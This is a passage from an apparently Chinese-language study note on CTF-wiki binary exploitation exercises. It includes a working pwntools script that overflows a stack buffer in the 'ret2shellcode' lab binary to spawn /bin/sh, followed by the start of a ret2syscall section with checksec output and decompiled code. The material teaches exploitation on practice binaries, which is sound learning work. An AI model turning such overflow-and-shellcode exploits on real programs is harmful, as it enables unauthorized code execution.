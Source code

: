 



```python
from pwn import *
p= process('./ret2shellcode')
shellcode = asm(shellcraft.sh())
#shellcraft.sh()：生成一个调用 /bin/sh 的 Shellcode
#asm()：将汇编代码转换为机器码字节序列
buf2_addr = 0x804a080
p.sendline(shellcode.ljust(112, b'A') + p32(buf2_addr))#0x6c+4=112
#将 shellcode 左对齐并填充到 112 字节，不足部分用 b'A' 填充。
p.interactive()
```

![image-20250212222103120](./ctf-wiki-pwn-learning.assets/image-20250212222103120.png)



### 3. ret2syscall

ret2syscall，即控制程序执行系统调用，获取 shell。



```bash
checksec rop
[*] '/home/seveng0/Desktop/pwn/rop'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

32位程序，开启了NX保护(又称DEP保护，数据执行保护)。

ida打开

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [esp+1Ch] [ebp-64h] BYREF

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("This time, no system() and NO SHELLCODE!!!");
  puts("What do you plan to do?");
  gets(&v4);
  return 0;
}
```
